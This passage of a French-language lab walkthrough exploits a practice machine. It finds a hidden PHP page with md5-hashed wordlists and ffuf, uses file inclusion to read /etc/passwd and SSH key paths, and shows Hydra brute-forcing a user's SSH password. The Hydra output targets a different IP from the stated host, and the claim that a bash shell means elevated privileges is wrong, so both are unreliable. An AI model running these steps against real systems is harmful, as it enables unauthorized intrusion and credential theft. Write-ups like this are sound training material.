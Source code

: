 ```bash
for i in $(cat /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt);do echo $i | md5sum >> dir.txt;done
```
![请添加图片描述](https://i-blog.csdnimg.cn/direct/23ddf08f811041aaa43f6aab922500de.png)
Supprimer les tirets et les espaces.

![请添加图片描述](https://i-blog.csdnimg.cn/direct/7bbf4902602e45999811e617d60a9b7a.png)

6. Scanner deuxème fois la ficher dir.txt qui crypté par md5 .


7. 
Nous avons réussi à obtenir le nouveau répertoire `/f66b22bf020334b04c7d0d3eb5010391.php`. En visitant l'adresse `http://10.1.12.130/f66b22bf020334b04c7d0d3eb5010391.php`, cependant, la page est blanche et le code source est également vide.
Nous envisageons d'utiliser fuff pour une détection de fuzzing.

```bash
fuff -c -u http://10.1.12.130/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd -w /usr/share/wordlists/rockyou.txt -fs 0
```
![请添加图片描述](https://i-blog.csdnimg.cn/direct/2cfa5e44a6ac47019028b22fcb0a7a58.png)
Nous avons obtenu le mot-clé "**purpose**".

## L'exploitation de vulnérabilités
1. Visiter l’address :`http://10.1.12.130/f66b22bf020334b04c7d0d3eb5010391.php?purpose=/etc/passwd` et regarder son ressource .
![请添加图片描述](https://i-blog.csdnimg.cn/direct/10bc386c0a23473791880c672b11f596.png)
L'utilisateur **freddie** a un UID et un GID tous deux égaux à **1000**, ce qui correspond à un ID utilisateur normal. Cependant, son shell est défini à **/bin/bash**, indiquant qu'il a un accès normal au shell, contrairement à de nombreux utilisateurs système qui sont restreints (comme **/usr/sbin/nologin** ou **/bin/false**).
Donc, nous concluons que l'utilisateur **freddie** a des privilèges élevés.

2. Nous essayons de nous connecter en utilisant SSH avec l'utilisateur freddie.
En ce moment ,on a besion son mots de pass.On essaye de regarder son **id_rsa**

```html
http://10.1.12.130/f66b22bf020334b04c7d0d3eb5010391.php?purpose=/home/freddie/.ssh/id_rsa
```
et 

```html
http://10.1.12.130/f66b22bf020334b04c7d0d3eb5010391.php?purpose=/home/freddie/.ssh/id_rsa.pub
```
les pages sont blanche,on essaye de faire du bruteforcing de mot de passe.

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-20 23:22:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 220560 login tries (l:1/p:220560), ~13785 tries per task
[DATA] attacking ssh://192.168.1.49:22/
[STATUS] 142.00 tries/min, 142 tries in 00:01h, 220420 to do in 25:53h, 14 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 220266 to do in 37:13h, 14 active
[STATUS] 92.29 tries/min, 646 tries in 00:07h, 219916 to do in 39:43h, 14 active
[STATUS] 2.39 tries/min, 675 tries in 04:42h, 219887 to do in 1535:47h, 14 active
[STATUS] 7.03 tries/min, 2101 tries in 04:58h, 218461 to do in 517:57h, 14 active
[22][ssh] host: 192.168.1.49   login: freddie   password: 61a4e3e60c063d1e472dd780f64e6cad
1 of 1 target successfully completed, 1 valid password found
```